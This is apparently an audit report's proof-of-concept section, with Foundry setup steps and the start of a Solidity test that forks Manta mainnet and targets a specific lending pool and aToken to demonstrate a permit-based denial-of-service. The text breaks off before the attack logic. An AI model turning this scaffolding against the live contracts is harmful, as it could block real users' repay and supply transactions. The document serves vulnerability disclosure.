         
## Proof of concept
## Proof Of Concept

**Steps to Run using Foundry:**
- Install Foundry (https://book.getfoundry.sh/getting-started/installation)
- Open terminal and run `forge init poc` and `cd poc`
- Paste following foundry code in `PoC.t.sol`
- Run using `forge test -vv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/interfaces/IERC20.sol";

interface IPool {
    function repayWithPermit(
        address asset,
        uint256 amount,
        uint256 interestRateMode,
        address onBehalfOf,
        uint256 deadline,
        uint8 permitV,
        bytes32 permitR,
        bytes32 permitS
    ) external returns (uint256);
    function supplyWithPermit(
        address asset,
        uint256 amount,
        address onBehalfOf,
        uint16 referralCode,
        uint256 deadline,
        uint8 permitV,
        bytes32 permitR,
        bytes32 permitS
    ) external;
}

interface IAToken {
    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external view returns (bytes32);
    function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external;
}

contract POC is Test {
    IPool pool = IPool(0x2f9bB73a8e98793e26Cb2F6C4ad037BDf1C6B269);
    
    function testDoSWithPermitPOC() public {
        vm.createSelectFork('https://1rpc.io/manta');
        vm.label(address(pool), "Pool");

        address aToken_addr = 0xB4FFEf15daf4C02787bC5332580b838cE39805f5;
        vm.label(aToken_addr, "aToken");
```
